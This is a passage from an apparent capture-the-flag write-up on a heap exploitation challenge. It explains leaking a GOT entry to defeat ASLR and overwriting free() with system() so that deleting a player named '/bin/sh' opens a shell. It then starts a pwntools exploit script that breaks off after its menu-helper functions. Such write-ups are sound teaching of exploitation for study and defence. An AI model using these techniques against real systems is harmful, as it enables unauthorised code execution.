 With this configuration we have now a read/write primitive to an user
controlled address: using a **GOT** entry inside the executable as
part of the name of the player we can now read what's the address resolved
by the dynamic loader so to bypass ``ASLR``; then
using a write I can overwrite that address to the one pointing to
a function more valuable: if I overwrite the GOT entry for the
``free()`` function with the ``system()``, it's possible to execute a shell
simply removing a player with name ``/bin/sh``;)



This approach has two drawbacks:

 - you cannot write the bytes ``\n`` and ``\0``, so if your address has a digit with these values you need to change
the overwritten function if possible or use a more generic primitive.
 - it's one-shot: you cannot change the address without redoing the dance

## Exploit

For completeness below you can read the exploit used to solve the challenge,
it needs the executable and its system library in the same directory
where this file lives. Remember to export ``LD_LIBRARY_PATH`` if
you want to try it and to install ``pwntools``.

```python
# encoding:utf8
from pwn import args, log
from pwnlib.tubes import process, remote
from pwnlib.util import packing
from pwnlib.elf.elf import ELF
import os
import sys


def recvuntil_main_menu(t):
    return t.recvuntil('6.- Show team\nYour choice: ', timeout=4)

def add_player(t, name):
    t.sendline('1')
    response = t.recvuntil('Enter player name: ')
    t.sendline(name)
    t.sendline('1')
    t.sendline('1')
    t.sendline('1')
    t.sendline('1')

    recvuntil_main_menu(t)

def select_player(t, index):
    t.sendline('3')

    t.recvuntil('Enter index: ')

    t.sendline(str(index))

    recvuntil_main_menu(t)

def edit_player(t, name):
    t.sendline('4')

    t.recvuntil('5.- Set precision\nYour choice: ')

    t.sendline('1')
    t.recvuntil('Enter new name: ')

```